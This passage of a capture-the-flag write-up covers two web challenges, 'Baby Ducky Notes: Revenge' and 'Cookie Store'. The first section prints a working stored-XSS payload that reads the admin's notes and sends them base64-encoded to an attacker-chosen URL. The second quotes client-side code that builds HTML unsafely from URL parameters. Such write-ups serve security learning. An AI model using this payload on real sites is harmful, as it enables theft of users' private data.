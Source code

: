 ### Baby Ducky Notes: Revenge
Now the challenge was a bit more difficult than the previous one because the flag was hidden and the only way to read it was to make the admin read it for me or by stealing the admin's cookie which was HttpOnly.<br>
After looking for a while in the source code, I found a line from the template of the posts page:<br>
```html
<ul class="posts_ul">
    {% for post in posts %}
    <li>
        <div class="blog_post">
            <div class="container_copy">
                <h1> {{post.get('title')}} </h1>
                <h3> {{post.get('username')}} </h3>
                <p> {{post.get('content') | safe}} </p>
            </div>
        </div>
    </li>
    {% endfor %} 
</ul>
```
The content was rendered without any sanitizing and because of that I could perform an XSS using this payload<br>
```js
<script>
async function attack(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/posts/view/admin", true);
    xhr.responseType = "text";
    xhr.onload = () => {
        window.location.href = "{input('Enter the url of your site: ')}?html=" + btoa(xhr.responseText.toString());
    };
    await xhr.send(null);
}
attack();
</script>
```
After executing this code the admin could read its notes (including the flag) and send the whole html code encrypted in base64 to my website where I had to decrypt it to find the flag.

### Cookie Store
I really hated this challenge for a while because I couldn't run the javascript code of the page (which was quite important) because of an error of the `setHTML` javascript function which only worked when the site was running as `localhost` or with an `https` connection. I later found out a way to run docker as `localhost` (it initially used the local ip 172.17.x.x) but even if I spent a lot of time to resolve this problem, the challenge was quite interesting, in fact this site printed our 'notes' using some columns sorting method that was vulnerable.
```js
const urlParams = new URLSearchParams(window.location.search);
const fields = urlParams.get('fields');

let form_html = '';
let fields_list = [];
if (fields) {
    fields_list = fields.split(',');
    fields_list.forEach(element => {
        form_html += `<div class="mb-4">
            <label for="${element}" ... >${element}</label>
            <input type="text" name="${element}" id="${element}" ...>
        </div>`;
    });
}
// This will sanitize the input
```